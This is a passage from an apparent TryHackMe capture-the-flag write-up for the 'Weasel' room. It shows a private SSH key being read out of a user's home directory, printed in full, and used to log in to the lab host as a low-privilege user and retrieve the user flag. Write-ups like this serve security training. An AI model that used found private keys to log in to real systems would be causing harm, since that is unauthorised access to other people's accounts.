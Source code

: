 
### Gaining Stable Shell as dev-datasci-lowpriv

While enumerating the directory we get for dev-datasci, we can see that there is file named “`dev-datasci-lowpriv_id_ed25cat dev-datasci-lowpriv_id_ed25519`”which hold a private ssh key.

```bash
(base) dev-datasci@DEV-DATASCI-JUP:~$ cat dev-datasci-lowpriv_id_ed25cat dev-datasci-lowpriv_id_ed25519
cat dev-datasci-lowpriv_id_ed25519
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBUoe5ZSezzC65UZhWt4dbvxKor+dNggEhudzK+JSs+YwAAAKjQ358n0N+f
JwAAAAtzc2gtZWQyNTUxOQAAACBUoe5ZSezzC65UZhWt4dbvxKor+dNggEhudzK+JSs+Yw
AAAED9OhQumFOiC3a05K+X6h22gQga0sQzmISvJJ2YYfKZWVSh7llJ7PMLrlRmFa3h1u/E
qiv502CASG53Mr4lKz5jAAAAI2Rldi1kYXRhc2NpLWxvd3ByaXZAREVWLURBVEFTQ0ktSl
VQAQI=
-----END OPENSSH PRIVATE KEY-----
```

Copy these content and paste that into a file named id_rsa inside our kali machine. Give it permission 600. And let’s ssh in to user dev-datasci-lowpriv.

```bash
┌──(ghost㉿kali)-[~/tryhackme/weasel]
└─$ ssh -i id_rsa dev-datasci-lowpriv@10.10.170.128
The authenticity of host '10.10.170.128 (10.10.170.128)' can't be established.
ED25519 key fingerprint is SHA256:YohGOJ6HqUWSa59AODLQL1ppenworD+oYe1xcRv/GrI.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:34: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.170.128' (ED25519) to the list of known hosts.
Microsoft Windows [Version 10.0.17763.3287]
(c) 2018 Microsoft Corporation. All rights reserved.
dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv>whoami
dev-datasci-jup\dev-datasci-lowpriv
```

Ok, now we are into a windows shell as user dev-datasci-lowpriv. And we can grab our user flag from this user’s desktop directory.

```bash
dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv>cd Desktop 

dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv\Desktop>dir 
 Volume in drive C has no label.                                          
 Volume Serial Number is 8AA3-53D1                                        
                                                                          
 Directory of C:\Users\dev-datasci-lowpriv\Desktop                        
                                                                          
08/25/2022  07:39 AM    <DIR>          .                                  
08/25/2022  07:39 AM    <DIR>          ..                                 
08/25/2022  05:21 AM        28,916,488 python-3.10.6-amd64.exe            
08/25/2022  07:40 AM                27 user.txt                           
               2 File(s)     28,916,515 bytes                             
               2 Dir(s)  36,661,235,712 bytes free                                                                                                  
dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv\Desktop>type user.txt 
THM{REDACTED}
```

---